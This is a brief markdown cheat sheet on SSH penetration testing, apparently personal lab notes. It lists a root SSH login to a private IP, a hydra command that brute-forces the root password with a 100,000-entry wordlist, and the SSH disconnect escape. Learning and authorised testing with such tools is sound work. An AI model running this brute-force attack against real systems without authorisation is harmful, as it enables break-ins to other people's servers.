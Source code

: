 ## SSH Penetration Testing

### Login to SSH
`ssh root@10.11.1.140`

### Brute forcing SSH
```
# Brute force SSH, replace 10.11.1.140 with target ip
hydra -e nsr -l root -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 10.11.1.140 ssh -t 4
```

### Close SSH connection
`~.`
